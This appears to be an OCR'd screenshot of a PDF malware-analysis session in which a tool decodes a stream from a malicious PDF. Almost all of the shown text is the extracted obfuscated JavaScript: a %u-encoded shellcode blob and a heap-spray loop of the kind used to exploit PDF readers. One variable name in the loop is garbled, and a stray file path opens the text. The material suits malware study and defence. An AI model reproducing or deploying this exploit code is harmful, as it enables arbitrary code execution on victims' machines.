 [0x00000000]> pdfvi
Applying Filter FlateDecode ...
Applying Filter ASCIIHexDecode ...
Encoded Stream 1
--------------------------------------------------------------------------------
    var HdPN = "";
    var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
    
    // important
    var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%
ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9
ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412
d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%
u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub
7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7
e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%
u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4
190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21b
f%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%
uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u7
69b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb
0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%
u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4
879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u881
4%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%
ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7
b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u257
7%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%
u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u4
1b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u317
4%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%
ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue
3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b
9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%
u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u0
27c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033
c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%
uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8
b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u726
2%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%
u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2
c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua31
6%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%
u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u9
8a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81f
f%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%
u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5
068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");

    // not important
    var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";
    for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL+= unescape("%ub32f%u3791");
    ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
    fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS+ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length
    while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length<fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHT+=OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
    UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);